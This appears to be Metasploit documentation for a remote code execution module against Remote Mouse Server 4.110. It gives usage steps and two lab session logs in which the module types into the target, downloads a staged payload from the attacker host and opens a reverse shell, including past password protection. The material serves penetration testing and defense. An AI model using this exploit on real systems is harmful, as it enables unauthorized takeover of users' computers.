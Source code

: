 ## Vulnerable Application

This module utilizes the Remote Mouse Server by Emote Interactive protocol
to deploy a payload and run it from the server.  This module will deploy
a payload regardless if server authentication is required.
Tested against 4.110, current at the time of module writing

Version 4.110 can be downloaded from https://www.remotemouse.net/downloads/RemoteMouse.exe
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

### PATH

The path where the payload should be downloaded/staged to. Defaults to `c:\\Windows\\Temp\\`.

## Scenarios

###  Remote Mouse 4.110 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49962) at 2022-09-27 16:33:02 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Mouse 4.110 on Windows 10, with a password


```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49975) at 2022-09-27 16:36:09 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\86a4GsbpomvEgUS.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```
